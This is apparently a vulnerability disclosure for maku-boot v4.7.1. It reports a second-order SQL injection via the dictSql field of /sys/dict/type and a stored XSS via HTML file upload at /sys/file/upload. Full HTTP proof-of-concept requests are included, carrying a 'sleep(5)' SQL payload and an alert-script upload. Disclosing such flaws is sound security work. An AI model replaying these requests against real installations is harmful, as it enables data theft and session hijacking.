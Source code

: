 BUG_Author

Longlong Gong

# Project

Address: [maku-boot](https://gitee.com/makunet/maku-boot)

## SQL inject

###  `/sys/dict/type` `/sys/dict/type/list/sql` SQL inject

[Affected version]

v4.7.1



[Affected Component]

/sys/dict/type

/sys/dict/type/list/sql



[Software]

https://gitee.com/makunet/maku-boot/archive/refs/tags/v4.7.1.zip



[Description]

The Maku boot system v4.7.1 has a secondary injection vulnerability in the dictSQL parameter of the `/sys/dict/type ` interface, which allows SQL statements to be constructed and executed through `/sys/dict/type/list/SQL `. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
PUT /sys/dict/type HTTP/1.1
Host: localhost:8080
Content-Length: 200
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close

{"id":1,"dictType":"post_status","dictName":"1","sort":0,"pid":null,"dictSource":1,"dictSql":"select sleep(5)","remark":"1","createTime":"2025-03-04 22:09:20","updateTime":"2025-03-04 23:17:54","hasChild":0}
```

```
GET /sys/dict/type/list/sql?id=1 HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close


```

System Settings ->Data Dictionary ->Modify ->Dynamic SQL, add SQL statements, click on Dynamic Data Execution

![image-20250304234209327](assets/image-20250304234209327.png)

![image-20250304234234773](assets/image-20250304234234773.png)

![image-20250304234314957](assets/image-20250304234314957.png)

![image-20250304235133799](assets/image-20250304235133799.png)

maku-boot-v4.7.1\maku-boot-system\src\main\java\net\maku\system\dao\SysDictDataDao.java

![image-20250304234529278](assets/image-20250304234529278.png)

![image-20250304234614611](assets/image-20250304234614611.png)

![image-20250304234631087](assets/image-20250304234631087.png)

## Stored cross-site scripting

###  `/sys/file/upload` Stored cross-site scripting

[Affected version]

v4.7.1



[Affected Component]

/sys/file/upload



[Software]

https://gitee.com/makunet/maku-boot/archive/refs/tags/v4.7.1.zip



[Description]

The maku-boot system v4.7.1 has an XSS vulnerability caused by file uploads in the `/sys/file/upload` interface. The parameter name is not handled correctly. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks. ...

POC

```
POST /sys/file/upload HTTP/1.1
Host: localhost:8080
Content-Length: 214
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9eFFKAGqBwkRuBTe
sec-ch-ua-mobile: ?0
Authorization: 37469739860d4b6095680d5cce450e37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Origin: http://127.0.0.1:3000
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary9eFFKAGqBwkRuBTe
Content-Disposition: form-data; name="file"; filename="flag.html"
Content-Type: application/json

<script>alert(1)</script>
------WebKitFormBoundary9eFFKAGqBwkRuBTe--

```

Basic Tools - > Attachment Management - > Upload, change the suffix of the uploaded file to HTML, then the file content is JS code, and the link to access the return package constitutes XSS.

![image-20250305190634329](assets/image-20250305190634329.png)

![image-20250305190753610](assets/image-20250305190753610.png)

![image-20250305190721405](assets/image-20250305190721405.png)

![image-20250305190817611](assets/image-20250305190817611.png)

![image-20250305190943503](assets/image-20250305190943503.png)

![image-20250305191004774](assets/image-20250305191004774.png)
